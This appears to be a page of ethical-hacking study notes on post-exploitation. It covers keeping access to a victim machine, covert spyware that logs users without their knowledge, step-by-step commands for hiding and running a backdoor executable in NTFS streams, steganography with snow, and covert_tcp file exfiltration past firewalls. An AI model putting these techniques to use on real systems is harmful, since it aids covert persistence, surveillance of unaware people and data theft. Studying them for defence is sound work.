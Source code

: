 # MAINTAINING ACCESS
* scripts can be run in the victim system (after exploiting) to send a connection request every few minutes or hours. (persistent connection)
* Power Spy is a computer activity monitoring software that allows you to secretly log all users on a PC while they are unaware. After the software is installed on the PC, you can remotely receive log reports on any device via email or FTP.
* SpyAgent provides a large array of essential computer monitoring features as well as website, application, and chat-client blocking, lockdown scheduling, and the remote delivery of logs via email or FTP. <br>

# HIDING FILES
### HIDING FILES USING NTFS STREAMS
* create a folder
* store an exe in the folder
* create a txt file with some dummy text
* run command: ```[exe path] > [txt path]:[exe name]``` this will hide the exe in the text file
* delete the original exe file
* create a link by running the command ```mklink backdoor.exe [txt path]:[exe name]```
* run the hidden exe by running ```backdoor.exe```

### WHITE SPACE STEGANOGRAPHY
Whitespace steganography is used to conceal messages in ASCII text by adding white spaces to the end of the lines. Because spaces and tabs are generally not visible in text viewers, the message is effectively hidden from casual observers. <br>
we can use a tool called "snow"
* create a text file with some sample text
* navigate to the folder containing the snow tool
* run command ```snow -C -m "secret text" -p "password" sampleText.txt hiddentext.txt```
* the data will be hidden in hiddentext.txt
* to extract the data, run command ```snow -C -p "password" hiddentext.txt```

### IMAGE STEGANOGRAPHY
Tools like Steghide, OpenStego etc can be used to hide text files in images

### CONVERT CHANNELS USING Convert_TCP
The Covert_TCP program manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can act like a server as well as a client and can be used to hide the data transmitted inside an IP header. This is useful when bypassing firewalls and sending data with legitimate-looking packets that contain no data for sniffers to analyze. <br>
usage: <br>```./covert_tcp -dest [dest IP] -source [source IP] -source_port [source port] -dest_port [dest port] -file [secret file path]```
